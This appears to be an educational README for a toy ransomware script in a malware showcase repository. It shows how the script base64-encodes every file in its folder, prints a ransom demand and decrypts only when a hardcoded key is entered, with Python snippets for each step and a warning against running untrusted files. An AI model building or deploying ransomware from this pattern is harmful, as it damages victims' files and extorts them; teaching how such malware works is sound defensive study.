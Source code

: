 # Ransomware

Our **ransomware** is implemented in the file `ransomware.py`. It encrypts all files in the same directory and shows a ransom message, requesting financial amount of 0.1 USD for user to obtain the key. Once the user provides the correct key, it decrypts those files, otherwise they would stay encrypted.

#### Demonstration of behavior

Before the execution of **ransomware** observe `target_file.ext`. It is a simple file located in the same directory as out **ransomware**. To see the behavior of **ransomware**, simple execute it in this folder (`./ransomware`). You should see something like this:

```
DEBUG:root:Encrypting file: malware_showcase/ransomware/target_file.ext
Hi, all your files has been encrypted. Please send 0.1 USD on this address
to get a decryption key: XYZ.
Number of encrypted files: 1
Please enter a key:
```

Now do not type anything, just observe `target_file.ext` in the second terminal. You can see that its original content `Just an ordinary text file.` was encoded to `SnVzdCBhbiBvcmRpbmFyeSB0ZXh0IGZpbGUuCg==` (for the more experienced users it is obvious that it is a simple format of **base64**). However, this **ransomware** assumes that the user does not know the basics of cryptography. Now we have two options as the user. We might guess the key, in which case the program ends and our files stay encrypted, or we "send a payment to the bank address XYZ" and obtain the correct key:
```
Please enter a key: __ransomware_key
```
This triggers a decryption of data and as we can observe, the content of our file is restored.

Creation of basic **ransomware** is very simple process as it is described below and anyone can do it just with basics in programming and understandment of encryption. That's why we should be always cautious when we execute any uncommon or not trusted files.

#### How does it work?

- Firstly, we create our **ransomware** and give it a name. <br>
  ```python
  ransomware = Ransomware('SimpleRansomware')
  ```
- Then we must **choose a folder** with files we want to encrypt. We call function *encrypt_files_in_folder* that is provided by our **ransomware** and pass the path to the folder as an argument. This function returns the number encrypted files. <br>
  ```python
  number_encrypted_files = ransomware.encrypt_files_in_folder(path)
  ```
- The first thing that needs to be done is a lookup for all filenames in the same directory (function _get_files_in_folder(path)_). This implementation ignores _README_ files, because **ransomware** would encrypt also this file as well if you run it.
- Then we can simple encrypt each found file. The process of encryption is described below.
  ```python
  for file in files:
     logging.debug('Encrypting file: {}'.format(file))
     self.encrypt_file(file)
  ```
 - The encryption part is the most important. There are many ways of how to encrypt the files. Usually 
 the encryption key would take a part in encryption as well (with much stronger encryption algorithm), but for demonstration we can use basic encoding **base64**. To learn more about **base64** see [the guide to base64](https://blogs.oracle.com/rammenon/base64-explained). In this case we load the data from the file, encrypt them to base64 and then write them back to the file.
   ```python
   # Load the content of file.
   with open(filename, 'r') as file:
 	  content = file.read()
   # Encrypt the file content with base64.
   encrypted_data = base64.b64encode(content.encode('utf-8'))
   # Rewrite the file with the encoded content.
   with open(filename, 'w') as file:
      file.write(encrypted_data.decode('utf-8'))
    ```
 - Once all files are encrypted, we can show our ransom message to the user, requesting money for the key.
 - The decryption part is very similar to encryption. However, in this case we load the key and compare it with our default key `__ransomware_key`. If they are equal, we simply revert the previously done encryption. If the user enters a different key, the program ends and the files stay encrypted.
    ```python
    # Obtain a key from the user.
    key = self.obtain_key()
    if key != self.key:
 	   print('Wrong key!')
       return

    files = self.get_files_in_folder(path)

    # Decrypt each file in the directory.
    for file in files:
 	    self.decrypt_file(key, file)
    ```